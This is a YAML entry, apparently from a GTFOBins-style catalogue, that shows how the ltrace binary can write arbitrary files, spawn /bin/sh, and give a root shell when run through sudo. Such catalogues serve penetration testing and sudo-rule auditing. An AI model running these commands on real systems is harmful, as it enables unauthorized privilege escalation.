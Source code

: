 ```yaml
---
functions:
  file-write:
    - description: write to a file.
      code: |
        LFILE=file_to_write
        TF=$(mktemp)
        echo ":DATA">$TF
        ltrace -s 999 -e fgets --output=$LFILE ltrace --config=$TF $(mktemp)
  shell:
    - code: ltrace -b -L /bin/sh
  sudo:
    - code: sudo ltrace -b -L /bin/sh
---
```

